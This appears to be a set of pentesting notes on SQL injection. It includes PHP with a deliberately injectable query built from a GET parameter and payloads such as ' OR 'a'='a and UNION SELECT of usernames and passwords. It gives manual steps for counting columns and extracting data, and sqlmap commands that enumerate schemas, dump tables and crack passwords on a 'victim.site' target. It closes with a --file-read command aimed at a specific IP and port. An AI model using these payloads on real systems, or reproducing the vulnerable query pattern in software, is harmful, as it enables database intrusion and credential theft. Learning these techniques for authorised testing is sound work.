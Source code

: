 #### connecting to SQL

`mysql -u <username> -p<password> -h <dbms ip>`

#### SQL Connection

```bash
$dbhostname='1.2.3.4';
$dbuser='username';
$dbpassword='password';
$dbname='database';
$connection = mysqli_connect($dbhostname, $dbuser, $dbpassword, $dbname);
$query = "SELECT Name, Description FROM Products WHERE ID='3' UNION SELECT Username, Password FROM Accounts;";
$results = mysqli_query($connection, $query);display_results($results);
```

* * *

#### SQL Connection: Dyanmically build

```bash
$id = $_GET['id'];

$connection = mysqli_connect($dbhostname, $dbuser, $dbpassword, $dbname);
$query = "SELECT Name, Description FROM Products WHERE ID='$id';";
$results = mysqli_query($connection, $query);display_results($results);
```
* * *

#### Attacker changing the sql script

Suppose the query is `SELECT Name, Description FROM Products WHERE ID='$id';`.
<newline>
We insert `' OR 'a'='a` the query becomes `SELECT Name, Description FROM Products WHERE ID='' OR 'a'='a';` 
<newline>
We can exploit also union command by adding `' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a` to the end of the query and thus the query becomes `SELECT Name, Description FROM Products WHERE ID='' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a';` This will result in displaying all Username and password.
* * *
#### Steps to follow to check whether there is a vulnerability

1. Add string termination `'` and check whwther there is any odd behaviour to find possible injection point.
2. Keep in mind that during a pentest you have to find all vulnerability, so you have to test all other inputs. You will not just stop at the first injection point you find and can use Burp Proxy to test Headers, Cookies and POST parameters.
3. Add query `SELECT Name, Description FROM Products WHERE ID='' OR 'a'='a';` by adding `' OR 'a'='a` to the injection point and check the behaviour. like `' or 1=1; -- -`
4. And also check with false like `' OR '1='11`
5. `SELECT description FROM items WHERE id='' UNION SELECT user(); -- 0-';` by adding `' UNION SELECT user(); -- -` to get the user output. 
6. We can use UNION to find number of fields in the database.`' UNION SELECT null; -- -`, `' UNION SELECT null, null; -- -` see if the number of query matches. Keep adding null until the fileds match.
7. After finding number of fields add some known values to the fields. For example:
`' UNION SELECT 'id1', 'id2'; -- -`
8. Check which one is reflected also check the source code.
9. If Id1 is reflected lets exploit that by changing id1 by `' UNION SELECT user(), 'id2'; -- -`
This will show the user.
* * *

#### SQL Map
Format: `sqlmap –u <URL> -p <injection parameter> [options]`
<newline>
Example: `sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U`
<newline>
For exploiting POST parameter the synatx would be `sqlmap–u <URL> --data=<POST string> -p parameter [options]`.
<newline>

#### Steps for using SQL Map 1
1. Find the vulnerability area.
2. Go to linux terminal and type in the format `sqlmap –u <URL> -p <injection parameter> [options]`.
For example: `sqlmap -u 'http://victim.site/view.php?id=1141'`
3. The above query will help in checking the parameter is vulnerable and give details like OS, dbms etc.
4. To get banner type `sqlmap -u 'http://victim.site/view.php?id=1141' -b`.
5. For getting more structure type `sqlmap -u 'http://victim.site/view.php?id=1141' --tables` to see all tables in the dbms.
6. To see current table type `sqlmap -u 'http://victim.site/view.php?id=1141' --current-db selfie4you --columns`
7. Use `sqlmap -u 'http://victim.site/view.php?id=1141' --current-db selfie4you --dumps` to crack password or view the table.
* * *

#### Steps for using SQL Map 2
1. Find the vulnerability area.
2. Go to linux terminal and type in the format `sqlmap –u <URL> -p <injection parameter> [options]`.
For example: `sqlmap -u 'http://victim.site/view.php?id=1141'`
3. The above query will help in checking the parameter is vulnerable and give details like OS, dbms etc.
4. To get banner type `sqlmap -u 'http://victim.site/view.php?id=1141' --banner`.
5. To see the schemas `sqlmap -u 'http://victim.site/view.php?id=1141' --dbms`.
6. To select table `sqlmap -u 'http://victim.site/view.php?id=1141' -D <schema name> --tables`
7. To select column details `sqlmap -u 'http://victim.site/view.php?id=1141' -D <schema name> -T <table name> --columns`
8. To dump two column details `sqlmap -u 'http://victim.site/view.php?id=1141' -D <schema name> -T <table name> -C <column1>,<column2> --dump`
* * *

To read unauthorised file `sudo sqlmap -u '157.245.40.149:32168/portfolio.php?id=1' --file-read=/var/www/html/administrat/panel.php
`

